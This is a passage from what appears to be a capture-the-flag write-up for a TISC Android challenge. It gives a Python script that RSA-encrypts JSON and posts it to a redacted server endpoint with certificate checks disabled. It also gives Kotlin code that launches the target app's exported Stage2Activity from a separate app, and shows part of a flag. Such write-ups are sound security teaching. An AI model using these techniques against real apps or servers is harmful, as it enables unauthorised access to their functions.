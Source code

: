 ```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
url = lambda x: f'https://[REDACTED]/{x}.php'

import base64
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5
import json

KEY = '...'
CIPHER = PKCS1_v1_5.new(RSA.import_key(base64.b64decode(KEY)))

def enc(x):
    return {
        'data': base64.b64encode(CIPHER.encrypt(json.dumps(x, separators=(',', ':')).encode())).decode()
    }

DUMMY = {'test': 'lolz'}

def p(page, data=DUMMY):
    return requests.post(url(page), json=enc(data), verify=False)

print(p('signature').text)
```

Sending this over to the `/signature` endpoint, we get a well-formed response. However, this itself doesn't do much, and that's pretty much it for `Stage1Activity`.

To proceed, we need to look at `Stage2Activity`. Recall that this activity can be accessed externally, meaning that we can simply spin up our own app to call this activity.

```kotlin
class MainActivity : ComponentActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        val intent = Intent()
        intent.component = ComponentName(
            "com.ropllc.signull",
            "com.ropllc.signull.Stage2Activity"
        )
        startActivity(intent)
    }
}
```

```
TISC{Th3_53c
```

(Again I didn't manage to screenshot it before the server got taken down, so I can't show any images of successful flag extraction)
